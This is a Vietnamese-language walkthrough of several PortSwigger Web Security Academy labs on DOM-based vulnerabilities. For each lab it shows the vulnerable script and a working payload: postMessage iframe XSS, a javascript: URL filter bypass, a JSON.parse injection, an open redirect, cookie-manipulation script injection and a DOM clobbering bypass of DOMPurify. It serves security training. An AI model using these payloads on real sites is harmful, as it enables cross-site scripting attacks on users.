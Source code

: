 # **DOM-based vulnerabilities**

## **DOM là gì ?**

- Document Object Model (DOM) là một biểu diễn phân cấp của trình duyệt web về các phần tử trên trang.

- Các trang web có thể sử dụng JavaScript để thao tác các nút và đối tượng của DOM, cũng như các thuộc tính của chúng. Bản thân thao tác DOM không phải là vấn đề.
- Trên thực tế, nó là một phần không thể thiếu trong cách thức hoạt động của các trang web hiện đại. Tuy nhiên, JavaScript xử lý dữ liệu không an toàn có thể kích hoạt các cuộc tấn công khác nhau.
- Các lỗ hổng dựa trên DOM phát sinh khi một trang web chứa JavaScript lấy giá trị mà kẻ tấn công có thể kiểm soát, được gọi là nguồn và chuyển giá trị đó vào một chức năng nguy hiểm, được gọi là phần chìm.

![](./img_DOM/img1.png)

## **LAB DOM**

> ### **DOM XSS using web messages**

- Đối với bài này sau khi tôi đọc source tôi đã thấy một script như sau:

```js
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

- Trang web đã sử dụng event message để lắng nghe từ trang web khác. Vậy làm sao để gửi message, tôi đã sử dụng Window.postMessage API.

![](./img_DOM/lab-1.png)

- Vậy tôi thực hiện tấn công như sau:

```html
<iframe src="https://0a56005f0406bf7dc11cb27f0075003e.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">

```

> ### **DOM XSS using web messages and a JavaScript URL**

- Đối với bài này yêu cầu đề bài ra in ra print() thì sẽ solve được đề bài. Có 1 đoạn script trong trang web như sau:

```js
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

- Điều này có nghĩa là nó check xem trong message được nhận đến nếu không có http hoặc https thì sẽ thực hiện href url.

- Tôi đã bypass nó bằng comments như sau:

```html
<iframe src="https://0a1400e403823bbdc025b3c70031000b.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

> ### **DOM XSS using web messages and JSON.parse**

- Ta hãy đọc source sau:

```js
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
```

- Như ta đã thấy khi trang web nhận meessage nó sẽ chuyển json sang object và để hiện print ta sẽ phải điểu chình `type=load-chanel` bằng cách như sau:

```js
<iframe src="https://0ae400df04e995d3c03c8b77005400fe.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

> ### **DOM XSS using web messages and JSON.parse**

- Sau khi đọc source tôi đã để ý đoạn quay trở lại blog.

![](./img_DOM/lab-2.png)

- Câu hỏi đặt ra ở đây là `returnUrl = /url=(https?:\/\/.+)/.exec(location);` nó có tác dụng gì.

- [**Chúng ta hãy tìm hiểu về regex**](https://topdev.vn/blog/regex-la-gi/)

- Dấu `?` ở đây có ý nghĩa là kí tự trước dấu hỏi có thể lặp 0 hoặc 1 lần.
- Dấu `/` có ý nghĩa bắt đầu hoặc kết thúc một regex.
- Dấu `.` khớp với một ký tự đơn nào ngoài trừ `\`
- `+` ý nghĩa kí tự trước có thể lặp không hoặc nhiều lần.

- Và từ những điều trên chúng ta có thể bypass chúng như sau:

```js
https://0a76006204761918c11371ec006f0057.web-security-academy.net/post?postId=7&url=https://exploit-0ad400130403192ec1d5703f01990020.exploit-server.net/
```

> ### **DOM-based cookie manipulation**

![](./img_DOM/lab-3.png)

- Đây là đoạn code giúp nó thay đổi cookie của trang web. Và tôi đã thử chức năng như sau:

![](./img_DOM/lab-3.1.png)

- Vậy tôi đã thử truyển script trên url bằng cách sau:

```js
https://0abf007403b85ccac2f37a48003c0091.web-security-academy.net/product?productId=1&%27%3E%3Cscript%3Eprint()%3C/script%3E%22%20onload=%22if(!window.x)this.src=%27https://0abf007403b85ccac2f37a48003c0091.web-security-academy.net%27;window.x=1;
```

> ### **Exploiting DOM clobbering to enable XSS**

- Đối với bài này sau khi đọc source tôi đã kiểm tra 2 file js đã có tác động gì trong comments. Tôi đã nhận thấy rằng file `resources/js/loadCommentsWithDomClobbering.js` sẽ có tác dụng truy xuất và in ra các comment của người dùng, file `resources/js/domPurify-2.0.15.js` có tác dụng ngăn chặn Xss của kẻ tân công nó sẽ ngăn chặn các thẻ và các thuộc tính. Tôi đã nghĩ `domPurify-2.0.15.js` là một thư viện của JS để ngăn chặn XSS nó sẽ xử lý đầu vào của người dùng. Tôi đã đi tìm hiểu thư viện `domPurify-2.0.15.js`.

![](./img_DOM/lab-4.png)

![](./img_DOM/lab-5.png)

- Tôi đã tìm ra 2 trang web có nói đên việc bypass `domPurify-2.0.15.js` :
  - [Tài liệu 1](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/)
  - [Tại liệu 2](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss)
  - [Tài liệu 3](https://research.securitum.com/dompurify-bypass-using-mxss/)

- Nhưng dường như thư viện đã được update tôi đã thử một số trường hợp nhưng đã không thực hiện được. Tôi đã đến với `loadCommentsWithDomClobbering.js`, tôi đã phát hiện đến một vấn đề in ảnh người dùng ra.

![](./img_DOM/lab-5.1.png)

- Vận dụng điều ấy tôi có thể nhúng ảnh vào như sau:

```js
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```

- Với cid tôi thực hiện để nhúng ảnh. Và sau khi người khác comment thì ảnh người ấy sẽ dính href của tôi và in ra alert.
